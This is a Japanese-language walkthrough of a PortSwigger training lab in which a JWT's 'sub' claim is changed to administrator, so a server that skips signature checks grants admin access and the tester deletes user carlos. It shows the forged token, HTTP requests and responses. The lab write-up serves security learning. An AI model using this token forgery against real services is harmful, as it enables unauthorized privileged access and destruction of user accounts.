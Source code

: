# 未検証の署名による JWT 認証バイパス

次のハッキングラボを実施  
https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-unverified-signature  
このラボでは、セッションの処理に JWT ベースのメカニズムを使用します。実装上の欠陥により、サーバーは受信した JWT の署名を検証しません。

- 1. BurpSuite を起動して、proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. GET /my-account?id=wiener リクエストを send to repeater します
- 5. Burp Suite の拡張機能 JWT Editor を BApp Store からインストールします
- 6. repeater に送ったリクエストを GET /admin に書き換えて送信します。次のレスポンスが得られます。

```
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2614
```

- 7. Repeater の JSON Web Token タブを選択して、json の sub を wiener から administrator に変更して、COPY ボタンを押します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/778df961-97cb-420b-aa30-a1114dc47b66)

- 8. リクエストのクッキーを上記のものに上書きします

```
GET /admin HTTP/2
Host: 0a76009d04beb77e85b77657008d0076.web-security-academy.net
Cookie: session=eyJraWQiOiJiZWEzYzM5Zi0yMmY1LTQyZTAtYmY5OS1kY2JkNjE1MDNjNDYiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTIzNTAxODh9.tVzj-ckaW4_Dkc2O4Z4_-jOmN2NaBjf1hyDa1QU9eRw7Jx3czYCfbn3qyEND29NTEnK0TyIonnYXrYvrqhOfhrmN73bD4EYGrXzoCi4R4FqCR8mYgG7chGsup1ULkY0BPHBvue7IM5QWNPioJuaDh5-dihr5DlGTuiS_jf4zVua--EyaQGDHr2rms0YbQooODGfDIL4euA1_lZhtnnL8fTOjitpGHc4WaY20tUof3fvfYTHjXKDTGI3gXG8Q-KQ7s8fC_K98dVww5mlLYpqXw6aGpmIQWmwDgVhYPLVYFdyEGXcLjIDydPJqvWW-qW5KKgivtvMni1PwQjYGxFnBcA
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Referer: https://0a76009d04beb77e85b77657008d0076.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

管理者ページにアクセスできました。ユーザー削除リンクが得られました。

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3138
・・・
<a href="/admin/delete?username=carlos">Delete</a>
```

- 10. ユーザー削除リンクにアクセスしてユーザーを削除します

```
GET /admin/delete?username=carlos HTTP/2
```
